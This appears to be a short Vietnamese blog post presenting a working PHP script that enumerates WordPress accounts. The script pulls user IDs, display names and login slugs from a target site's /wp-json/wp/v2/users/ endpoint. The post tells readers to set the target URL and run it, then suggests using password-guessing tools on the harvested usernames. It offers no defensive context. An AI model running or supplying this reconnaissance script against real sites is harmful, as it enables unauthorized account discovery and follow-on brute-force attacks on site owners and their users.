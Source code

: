 ```yaml
---
title: Tiết lộ Người dùng WordPress
date: 23/06/2021
layout: single
--- 
```



# Mô Tả 
Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài 



## Hướng dẫn
Thay đổi url trong đoạn code dưới đây 
```shell 
php file.php
```
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/  )
```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "http://tagert"; # url 
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>

```

![](/assets/images/10.PNG)
### Có thể thấy User ID Name đã được dump ra :D
### Với tài khoản trên, bạn có thể sử dụng các công cụ dò mật khẩu để truy ra nó :D

## Chúc may mắn :D


